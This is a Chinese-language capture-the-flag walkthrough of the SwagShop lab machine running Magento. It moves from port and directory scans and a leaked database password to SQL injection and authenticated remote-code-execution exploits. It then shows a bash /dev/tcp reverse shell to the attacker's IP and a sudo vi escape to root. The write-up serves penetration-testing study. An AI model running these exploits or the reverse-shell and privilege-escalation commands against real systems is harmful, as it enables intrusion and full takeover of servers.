# 信息收集

## Nmap

```
root@kali# nmap --min-rate 10000 -p- -Pn 10.10.10.11 -oA scans/ports
···
PORT      STATE SERVICE
22/tcp open  ssh
80/tcp open  http
···
root@kali# nmap -sT -sC -sV -O -p22,80 10.10.10.11 -oA scans/details
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home page
...
```

发现只对22端口以及80端口进行了开放。

## Web访问

直接打开访问80端口



使用火狐浏览器打开，通过插件Wappalyzer,或者网页logo就可以发现是个开源的电子商务网站



## 目录FUZZ

magescan 专门针对magento的扫描器   

下载地址：https://github.com/steverobbins/magescan/releases

```
php magescan.phar scan:all http://10.10.10.140
```

```
root@kali# gobuster  -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php -t 50 -o scans/gobuster-root -u http://10.10.10.140/
...
[04:25:17] Starting:           
[04:25:28] 301 -  309B  - /js  ->  http://swagshop.htb/js/                                                       
[04:25:40] 200 -   10KB - /LICENSE.txt                                      
[04:26:12] 200 -  571KB - /RELEASE_NOTES.txt                                                                
[04:26:19] 200 -   37B  - /api.php                                          
[04:26:19] 301 -  310B  - /app  ->  http://swagshop.htb/app/                
[04:26:19] 200 -    2KB - /app/                                             
[04:26:19] 200 -    2KB - /app/etc/local.xml                                
[04:26:19] 200 -    9KB - /app/etc/local.xml.additional                     
[04:26:19] 200 -    2KB - /app/etc/local.xml.template                       
[04:26:19] 200 -    5KB - /app/etc/config.xml                                  
[04:26:31] 200 -  717B  - /cron.sh                                          
[04:26:31] 200 -    0B  - /cron.php                                         
[04:26:37] 301 -  313B  - /errors  ->  http://swagshop.htb/errors/          
[04:26:38] 200 -    2KB - /errors/                                          
[04:26:39] 200 -    1KB - /favicon.ico                                      
[04:26:46] 200 -  946B  - /includes/                                        
[04:26:46] 301 -  315B  - /includes  ->  http://swagshop.htb/includes/      
[04:26:46] 200 -   16KB - /index.php                                        
[04:26:47] 200 -   44B  - /install.php                                      
[04:26:48] 200 -    4KB - /js/tiny_mce/                                     
[04:26:49] 301 -  318B  - /js/tiny_mce  ->  http://swagshop.htb/js/tiny_mce/
[04:26:50] 301 -  310B  - /lib  ->  http://swagshop.htb/lib/                
[04:26:50] 200 -    3KB - /lib/                                             
[04:26:54] 301 -  312B  - /media  ->  http://swagshop.htb/media/            
[04:26:55] 200 -    2KB - /media/                                           
[04:27:05] 200 -  886B  - /php.ini.sample                                   
[04:27:10] 301 -  314B  - /pkginfo  ->  http://swagshop.htb/pkginfo/        
[04:27:19] 403 -  300B  - /server-status                                    
[04:27:19] 403 -  301B  - /server-status/                                   
[04:27:20] 200 -    2KB - /shell/                                           
[04:27:21] 301 -  312B  - /shell  ->  http://swagshop.htb/shell/            
[04:27:24] 301 -  311B  - /skin  ->  http://swagshop.htb/skin/              
[04:27:34] 301 -  310B  - /var  ->  http://swagshop.htb/var/                
[04:27:34] 200 -  755B  - /var/backups/                                     
[04:27:34] 200 -    2KB - /var/                                             
[04:27:34] 200 -    4KB - /var/cache/                                       
[04:27:34] 200 -    9KB - /var/package/ 
...
```

## 网站版本

首页显示是一个叫Magento的网站，在RELEASE_NOTES.txt 显示更新到1.7.0.2



在/app/etc/local.xml页面貌似暴露出了一个mysql密码

```
<crypt>
<key>b355a9e0cd018d3f7f03607141518419</key>
</crypt>
<host>localhost</host>
<username>root</username>
<password>fMVWh7bDHpgZkyfqQXreTjU9</password>
<dbname>swagshop</dbname>
<initStatements>SET NAMES utf8</initStatements>
<model>mysql4</model>
<type>pdo_mysql</type>
<pdoType></pdoType>
<active>1</active>
```

但是我不能使用这个凭证登录ssh,经过不停的谷歌搜索，找到这个cms的一个sql注入的[POC](https://github.com/joren485/Magento-Shoplift-SQLI/tree/master)

```
root💀kali# python poc.py http://swagshop.htb                
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
WORKED
Check http://swagshop.htb/admin with creds ypwq:123
```

执行POC以后得到后台登录凭证：ypwq:123     登录页面：http://10.10.10.140/index.php/admin/index/,登录进系统在底部发现版本号：Magento ver. 1.9.0.0

# 漏洞利用

这里有多种利用方式，可以利用37977新创建一个admin用户，也可以直接使用ypwq:123这个账户。

## searchsploit



主要是用到这两个：

- 37811，用来进行远程代码执行（但是需要通过身份验证） 。
- 37977，可以用来创建管理员账号密码（给第一个EXP的利用创造条件）。

这里使用37977，这个脚本可以创建一个admin权限的账户。但是我们需要改变一下里面的内容，target为我们的目标ip:http://10.10.10.140/index.php，并且删除一些不必要的注释。



然后对EXP进行修改，这里修改3个地方。


修改我们增加管理的账号密码：



修改下输出信息，方便成功后能直观看到我们的账号密码：



然后执行exp：



尝试登录10.10.10.140/index.php/admin,使用forme:forme账号登录成功。



接下来就是利用另一个EXP，来进行远程代码执行



重新编辑下EXP：



`install_date`：在上面我们发现的`/app/etc/local.xml`可以查询到



配置好的信息如下：



开始执行exp



可以看到mechanize报了一个找不到元素的错，mechanize是python里面模拟浏览器操作的模块，结合它需要管理员账号密码，这里应该填的是管理员页面地址，可以看到命令执行成功。



那么我们就用它反弹shell



无法正常反弹,这里猜测，可能是因为这串代码传到服务器的时候 可能**因为空格或者是其他的异常的符导致服务器执行失败**,之前我们看到whoami命令是可以正常执行的,那么我们就把代码换成这样

```
python 37811.py http://10.10.10.140/index.php/admin "bash -c 'bash -i >& /dev/tcp/10.10.12.69/4444 0>&1' "
```

这样当服务器解析到bash -c 时 可以把后面单引号内的内容执行，防止意外干扰



成功！！！

# 提权

查看sudo权限

```
www-data@swagshop:/home/haris$ sudo -l
sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

可以使用vi打开/var/www/html/目录下的任何文件。

我们可以去/var/www/html/目录下创建一个文件，利用vi的-c参数进行提权,我们利用这条指令即可提权，如图显示提权成功,获取到root.txt。

使用下面的命令提权到root。

```
sudo /usr/bin/vi /var/www/html/1 -c ':!/bin/sh' /dev/null
```

```
"/var/www/html/1" [New File]
# /bin/sh

# id
id
uid=0(root) gid=0(root) groups=0(root)
# whoami
whoami
root
```